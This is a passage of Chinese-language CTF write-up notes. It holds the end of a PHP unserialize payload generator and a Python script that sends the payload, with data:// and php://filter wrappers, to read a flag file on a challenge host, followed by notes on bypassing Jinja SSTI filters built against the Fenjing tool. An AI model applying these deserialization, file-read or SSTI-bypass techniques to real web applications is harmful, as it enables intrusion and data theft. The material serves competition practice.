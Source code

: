 			      $o = $useless;
			      $a = new ArrayObject([114 => 514]);
			      $a -> o = $o;
			      
			      echo "payloadsta"."rt".base64_encode(serialize($a))."payloadst"."op";
			  }
			  ```
		- python脚本
		  collapsed:: true
			- ```python
			  # url = "http://127.0.0.1:8080/index.php"
			  url = "https://rtmnchid56vovnhz77v4mffy6.node.game.sycsec.com/havefun.php"
			  api_url = "http://127.0.0.1:8080/pop.php"
			  
			  def get_payload_fcall():
			      r = base_get(api_url, params = {"action": "fcall"})
			      print(r.text)
			      content = r.text.rpartition("payloadstart")[2].partition("payloadstop")[0]
			      return encoder.base64_decode(content)
			  
			  def get_payload_getkey():
			      r = base_get(api_url, params = {"action": "getkey"})
			      content = r.text.rpartition("payloadstart")[2].partition("payloadstop")[0]
			      print(content)
			      return encoder.base64.b64decode(content)
			  
			  def get_keyphp_content():
			      r = base_get(url + "/key.php/%80", params = {
			          "user": get_payload_getkey(),
			          "a": "PATH_INFO"
			      })
			      with open("phpinfo.html", "w") as f:
			          f.write(r.text)
			      return r.text.rpartition("我好想她<br>")[2]
			  
			  # with open("key.php", "w") as f:
			  #     f.write(get_keyphp_content())
			  
			  r = base_post(url, params = {
			      "user": get_payload_fcall(),
			      "file": "data://text/plain,loveyou",
			      # "fun": "glob://f*"
			      "fun": "php://filter/read=convert.base64-encode/resource=flag_my_baby.php"
			  }, data = {
			      # "ctf":"DirectoryIterator",
			      "ctf":"SplFileObject",
			  })
			  print(r.text.replace("<br>", "<br>\n"))
			  ```
- # klf_2
  collapsed:: true
	- [[CTFWEB/SSTI/Jinja]]
	- 大概是针对焚靖出的题目，焚靖的常用规则都被禁了
		- 首先焚靖高度依赖的`%`被针对了，然后几乎所有高端的生成字符串规则也全都被针对了
		- 甚至连数字`37`都没办法自动生成...
		- 而且尝试手动注入会发现这一句话：`好好好你不是klf，我一定会再回来的!`...
	- 绕过思路
		- 将字符串分成一个个字符分别生成，然后用`join` filter合并起来
